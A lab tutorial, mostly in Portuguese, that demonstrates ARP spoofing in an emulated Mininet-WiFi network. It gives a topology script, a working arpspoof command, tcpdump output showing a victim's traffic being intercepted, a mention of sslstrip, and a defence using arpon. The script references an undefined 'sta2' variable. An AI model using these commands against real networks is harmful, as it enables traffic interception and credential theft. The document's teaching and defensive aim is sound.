 ```yaml
---
tags: security-tutorials
---
```


# ARP Spoofing

:::info
**In this short demo you will:** 
- How to perform ARP Spoofing attack

**Requirements:** 
- Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
- dsniff
- arpon
:::


First of all you need to identify the network topology that will be generated by the code below:

```python=
#!/usr/bin/python

'''@author: Ramon Fontes
   @email: ramon.fontes@imd.ufrn.br'''

from mininet.log import setLogLevel, info
from mn_wifi.node import OVSKernelAP
from mn_wifi.link import wmediumd
from mn_wifi.cli import CLI
from mn_wifi.net import Mininet_wifi


def topology():
    "Create a network."
    net = Mininet_wifi()

    info("*** Creating nodes\n")
    ap1 = net.addAccessPoint('ap1', ssid='new-ssid', mode='g',
                             channel='1', position='10,10,0',
                             failMode="standalone")
    net.addStation('sta1', position='10,20,0')
    net.addStation('sta2', position='10,30,0')

    info("*** Configuring wifi nodes\n")
    net.configureWifiNodes()

    info("*** Starting network\n")
    net.build()
    net.addNAT().configDefault()
    ap1.start([])
    
    sta2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

    info("*** Running CLI\n")
    CLI(net)

    info("*** Stopping network\n")
    net.stop()


if __name__ == '__main__':
    setLogLevel('info')
    topology()
```


Neste tutorial, vamos simular os passos ilustrados na figura de forma a mostrar na prática como ocorre o ataque de ARP Spoofing. Para tanto, vamos considerar executar o script acima. Considerando que o nome do arquivo seja `arp.py` nós o executaríamos da seguinte forma:

```
sudo python arp.py
```

Em seguida, faremos uma tentativa de ping a partir de `sta1` para o endereço 8.8.8.8.

```
mininet-wifi> sta1 ping -c1 8.8.8.8

PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=118 time=68.8 ms
--- 8.8.8.8 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 68.893/68.893/68.893/0.000 ms
```


Como é possível perceber o ping foi realizado com sucesso. Agora, vamos verificar a tabela ARP de `sta1`. Na tabela deverá constar o endereço IP e também o endereço MAC do gateway padrão de `sta1`.

```
mininet-wifi> sta1 arp -a
_gateway (10.0.0.3) at 0a:1e:54:0e:66:96 [ether] on sta1-wlan0
```

Então, vamos simular o ataque de ARP Spoofing e fazer com que `sta1` entenda que o seu gateway na verdade é `sta2`. Primeiro, abra 2 (dois) terminais para `sta2`.

```
mininet-wifi> xterm sta2 sta2
```

Então, no terminal de `sta2` execute o arpspoof, conforme abaixo.

```
sta2# arpspoof -i sta2-wlan0 -t 10.0.0.1 10.0.0.3
```

O comando acima induz 10.0.0.1, que é a vítima, a entender que 10.0.0.2, ou seja, `sta2`, representa o endereço do gateway padrão. Então, após alguns segundos verificamos novamente a tabela ARP de `sta1`.

```
mininet-wifi> sta1 arp -a
_gateway (10.0.0.3) at 02:00:00:00:01:00 [ether] on sta1-wlan0
? (10.0.0.2) at 02:00:00:00:01:00 [ether] on sta1-wlan0
```

Aqui, já podemos notar que o endereço MAC do gateway padrão já não é mais o mesmo do identificado anteriormente. Agora, realizamos um novo ping de `sta1` para o endereço público 8.8.8.8, ao mesmo tempo em que utilizamos o tcpdump no outro terminal de `sta2` para verificar se ele está recebendo tráfego enviado pela vítima.

```
sta2# tcpdump -i sta2-wlan0
20:30:34.970402 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 8, length 64
20:30:34.971552 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 8, length 64
20:30:35.430387 ARP, Reply _gateway is-at 02:00:00:00:01:00 (oui Unknown), length 28
20:30:35.972565 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 9, length 64
20:30:35.973722 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 9, length 64
20:30:36.973743 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 10, length 64
20:30:36.974884 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 10, length 64
```

```
mininet-wifi> sta1 ping -c10 8.8.8.8
```

Após alguns pacotes enviados por `sta1` é possível notar que `sta2` passou a receber os pacotes enviados por ele, pois `sta1` passou a entender que `sta2` seria o verdadeiro gateway padrão. A partir deste momento, `sta2`, o atacante, pode inclusive utilizar de simples ferramentas como sslstrip para realizar ataques em cima do protocolo HTTPS (Hyper Text Transfer Protocol Secure). Vale a pena citar também que esse tipo de ataque pode ser evitado com o uso de ferramentas como ARP handler inspection (ArpON).


Para ver como evitar esse tipo de ataque você pode utilizar o arpon. Para tanto, basta executá-lo em `sta1` antes do ataque ser realizado.


```
mininet-wifi> xterm sta1
arpon -D -i sta1-wlan0
```

Caso houver um ataque em execução será possível observá-lo após executar o arpon, conforme ilustrado abaixo:


```
arpon -D -i sta1-wlan0
Oct 30 10:01:41 [INFO] Start DARPI on sta1-wlan0
Oct 30 10:01:41 [INFO] CLEAN, 10.0.0.3 was at 52:1e:e8:62:58:11 on sta1-wlan0
Oct 30 10:01:53 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
Oct 30 10:01:53 [INFO] ALLOW, 10.0.0.3 is at 52:1e:e8:62:58:11 on sta1-wlan0
Oct 30 10:01:55 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
```

